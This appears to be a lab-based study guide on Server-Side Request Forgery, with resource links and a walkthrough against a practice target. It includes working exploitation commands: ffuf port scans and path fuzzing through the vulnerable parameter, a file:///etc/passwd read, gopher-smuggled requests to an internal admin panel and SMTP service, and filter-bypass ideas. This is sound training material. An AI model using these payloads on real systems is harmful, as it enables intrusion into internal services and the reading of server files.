

# \_OVERVIEW

Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf. This vulnerability might allow attackers to:

- Access Internal services
- Leak Cloud metadata
- read local files on the server
- Perform network discovery and port scanning

Below are some resources and guides to help you understand SSRF, along with practical demonstrations of how these vulnerabilities can be exploited.

<!-- more -->

---

## Introductory Guides

Read these before delving into the exploitation phase.

1. [Server-Side Request Forgery (SSRF) blog post by integriti](https://www.intigriti.htb/researchers/hackademy/server-side-request-forgery-ssrf)
   A beginner friendly introduction to SSRF and explanations with examples

2. [Portswigger labs](https://portswigger.net/web-security/all-labs#server-side-request-forgery-ssrf)
   Guides for testing SSRF vulnerabilities acompanied with labs to practice on.

### Testing Methodology

Any file that could contain a URL that would be parsed by the application can potentially trigger the vulnerability.

Most of the disclosed vulnerabilities did not occur where the application accepts a URL from the user directly (the obvious SSRF suspects), but where the user uploads a file and the application parses that file. These types of SSRF vulnerabilities are less apparent and can sneak into many features.

#### Tips

- Look into features that allow importing settings such as administration, configuration, or import
- Try manipulating different types of supported files (SVG, PNG, YAML..) with Arbitrary URLs, find out which ones aren't blocked, they might not follow the same strict validation rules
- Try using XXE payloads in XML parsers

This section will cover some of the common SSRF exploitation techniques having `dateserver.htb` as the target.

---

## Identifying SSRF

A walkthrough of identifying an SSRF vulnerability in a web application

Let's say we've identified a parameter `dateserver` that accepts a URL as input. if we attempt to fetch resources from our controlled server at `http://10.10.16.36`, we might get recieve a connection on our netcat listener


Looking over our netcat listener, we can see a connection recieved from the application:

```bash
$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 38782
GET /ssrf HTTP/1.1
Host: 172.17.0.1:8000
Accept: */*
```

Depending on the context, this behavior does not necessarily indicate an SSRF vulnerability (for example, webhooks are designed to make outbound requests). However, it does raise concerns about how the application validates user-supplied URLs. Weak or missing validation could allow abuse, especially if there is no strict domain allowlist or if requests to internal or reserved IP ranges are not properly blocked.

To determine whether the HTTP response reflects the SSRF response to us, let us point the web application to itself by providing the URL `http://127.0.0.1/index.php`:

Since the response contains the web application's HTML code, the `dateserver` is vulnerable to a Non-blind SSRF. We can now move on to the exploitation phase by attempting to access internal services.

#### Payloads Cheatsheet

- [PayloadsAllTheThings Cheatsheet](https://github.htb/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery#tools)
  cheatsheet with payloads, tools, bypasses, and references to articles

---

### Demonstrating SSRF Exploitation Techniques

#### Port Scanning

Begin by identifying any error messages by inspecting discrepancies between server responses. looking for Error messages and comparing requests could clue us on which ports are open.

generate port numbers

```bash
$ seq 1 10000 > ports.txt
```

Afterward, we can fuzz all open ports by filtering out responses containing the error message we have identified earlier.

```shell-session
$ ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```

#### Directory bruteforcing

fuzzing for restricted, and undiscovered paths:

```shell-session
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

Accessing restricted paths, such as admin panel, by using SSRF:


#### Filesystem & Internal network access

##### file Scheme

if it's allowed, we can read arbitrary files on the filesystem, including the web application's source code.

```
file:///etc/passwd
```

##### Gopher Scheme

By Utilizing Gopher, we can embed secondary requests into the vulnerable parameter. For example, if you were able to access a restricted endpoint by exploiting an SSRF vulnerability, how could you interact with it further? Using the gopher protocol! The gopher protocol allows you to embed requests directly into URLs.

For example we have two requests, Request 1 is a ping request to a public server (`dateserver.htb`):

```
(Request 1)
POST /index.php HTTP/1.1
Host: dateserver.htb
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

pingServer=example.htb
```

and Request 2 is a login request to an admin panel in seperate vhost(`admin.dateserver.htb`) disallowing access from the public internet:

```
(Request 2)
POST /admin.php HTTP/1.1
Host: admin.dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

username=admin&password=admin
```

By Utilizing the gopher protocol and URL-encoding special characters we can embed a secondary request POST request into the `pingServer` parameter of the request to `dateserver.htb` to access the restricted vhost(`admin.dateserver.htb`):

```http
(Request 1 [With Request 2 embedded])

POST /index.php HTTP/1.1
Host: dateserver.htb
Content-Length: 265
Content-Type: application/x-www-form-urlencoded

pingServer=gopher://admin.dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20admin.dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```


In the figure above, the second request successfully reached the internal VHOST (`admin-internal.server.htb`).

One thing to note here is that although we constructed a syntactically sound gopher URL, and managed to send a valid request to the internal vhost, gopher syntax is difficult to get right manually. That's why tools like gopherus exist to automate this process.

the tool supports various protocols. Let's say we enumerated several internal ports and want to interact with the SMTP service. We can use `gopherus` to construct a gopher URL.

I generate a valid SMTP URL by supplying the corresponding argument. The tool then asks me to input details about the email I want to send. Afterward, it provides a valid gopher URL that I can use in my SSRF exploitation:

```bash
$ python2.7 gopherus.py --exploit smtp


Give Details to send mail:

Mail from :  attacker@academy.htb
Mail To :  victim@academy.htb
Subject :  HelloWorld
Message :  Hello from SSRF!

Your gopher link is ready to send Mail:

gopher://127.0.0.1:25/_MAIL%20FROM:attacker%40academy.htb%0ARCPT%20To:victim%40academy.htb%0ADATA%0AFrom:attacker%40academy.htb%0ASubject:HelloWorld%0AMessage:Hello%20from%20SSRF%21%0A.

-----------Made-by-SpyD3r--------

```

Now we can take that gopher URL and insert it into the value for the `pingServer` parameter. the SMTP Response will comes back as raw SMTP data embedded in an HTTP response.

### Leaking Cloud metadata

[SSRF to AWS Metadata Exposure: How Attackers Steal Cloud Credentials](https://www.resecurity.htb/blog/article/ssrf-to-aws-metadata-exposure-how-attackers-steal-cloud-credentials)

[(payloads) SSRF URL for Cloud Instances](https://github.htb/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/SSRF-Cloud-Instances.md)

---

## Blind SSRFs

In many real-world SSRF vulnerabilities, the response is not directly displayed to us. These instances are called blind SSRF vulnerabilities because we cannot see the response. As such, we can't use the same exploitation vectors as we would with non-blind SSRF vulnerabilities.

The impact of blind SSRF vulnerabilities is generally significantly lower due to the severely restricted exploitation vectors.

#### Identifying Blind SSRF

We can confirm the SSRF vulnerability just like we did before by supplying a URL to a system under our control and setting up a netcat listener:

```shell
$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 32928
GET /index.php HTTP/1.1
Host: 172.17.0.1:8000
Accept: */*
```

But unfortunately, if we attempt to point the web application to itself, we can observe that the response does not contain the HTML response of the coerced request. Instead, it simply lets us know that the date is unavailable. Therefore, this is a blind SSRF vulnerability:


Exploiting blind SSRF vulnerabilities is generally severely limited compared to non-blind SSRF vulnerabilities. However, depending on the web application's behavior, we might still be able to conduct a (restricted) local port scan of the system, provided the response differs for open and closed ports. In this case, the web application responds with Something went wrong! for closed ports

#### Increasing Impact of Blind SSRFs

- [blind-ssrf-chains](https://github.htb/assetnote/blind-ssrf-chains):
  A Collection of blind SSRF attack chains for different cloud providers and services.

### Understanding current mitigations

in order to be effective at exploiting SSRF, we need to understand the current mitigations in place.

- [OWASP SSRF Prevention Cheatsheet](https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html)

- [gitlab's URL blocker lib](https://gitlab.com/gitlab-org/gitlab/-/blob/master/gems/gitlab-http/lib/gitlab/http_v2/url_blocker.rb):
  use this as a reference to understand the process of how a secure URL validation is implemented, the stages, what each step does and how it works. you should get hands-on writing SSRF protections in your own programming langauge.

---

### Modern Bypasses

this section focuses on the more interesting bypasses to SSRF protections when attempting to load internal resources, I'll keep adding the latest bypasses as i learn.

**Bypass local IP addresses blacklist**:

DNS Rebinding helps bypass local IP blacklist (e.g. 127.0.0.1) by rapidly alternating between an external IP and internal IP.

**Utilizing IPV6 Internal addresses**:

some developers completely overlook IPV6 and focus on IPV4, which means they fail to consider the fact that internal resources can be reached using IPV6 internal addresses.

## BB Writeups:

- [How I Found Tricky Server-Side Request Forgery (SSRF) by DarkT](https://darkt.medium.htb/how-i-found-tricky-server-side-request-forgery-ssrf-96c5fb630acd)
  Covers a couple of ssrf bypasses, including dns rebinding and ipv6 internal addresses.

- [SSRF In the wild by vickelee:](https://vickieli.dev/ssrf/ssrf-in-the-wild/)
  explores recent SSRF vulnerability reports and identifies the common coding patterns and testing techniques associated with them. I also highly recommend her SSRF series including [bypassing SSRF protections](https://vickieli.dev/ssrf/bypassing-ssrf-protection/)

---
